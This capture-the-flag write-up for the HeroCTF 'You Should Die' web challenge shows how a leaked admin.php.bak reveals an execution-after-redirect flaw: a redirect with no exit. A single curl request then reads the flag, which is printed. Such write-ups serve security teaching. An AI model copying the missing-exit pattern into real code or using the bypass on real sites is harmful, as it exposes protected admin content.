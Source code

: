 # You Should Die - HeroCTF.fr

### You will need

 - Web browser
 - Curl command

### Solution

We go to the address given to us - [http://chall1.heroctf.fr:9000/](http://chall1.heroctf.fr:9000/).
Here, if we open DevTools, we can find an interesting comment inside the `body` element.
```html
<body id="page-top">
  <!--
      For developper :
          Do not forget to remove admin.php.bak !
      
      Regards,
      Security Team
  -->
```
We have got the information that `admin.php.bak` is not removed, so we go there, and look at how an admin.php code looks like - [http://chall1.heroctf.fr:9000/admin.php.bak](http://chall1.heroctf.fr:9000/admin.php.bak)
```php
<?php

if (session_status() == PHP_SESSION_NONE) {
    session_start();
}

if (!(isset($_SESSION["logged"]) && $_SESSION["logged"] === true)) {
    header("Location: /index.php?error=You are not admin !");
}

echo "Flag : " . getenv("FLAG_MARK3TING");
```
Here we can see that flag can be accessed under the `/admin.php`. Code checks if we are logged in an if we are not it **redirects** us to /index.php. Redirect is a key word here, because we can fetch this address with `curl`, which ignores `Location` header.

```
$ curl http://chall1.heroctf.fr:9000/admin.php
Flag : Hero{r3d1r3c710n_c4n_b3_d4n63r0u5_57395379}
```

### Flag

​​	Hero{**r3d1r3c710n_c4n_b3_d4n63r0u5_57395379**}

#### Credits

- Writeup by [mble](https://ctftime.org/user/93848)
- Solved by [everl0stz](https://ctftime.org/user/85858); [mble](https://ctftime.org/user/93848)
- WaletSec 2021

#### License

**CC BY 4.0** WaletSec + mble
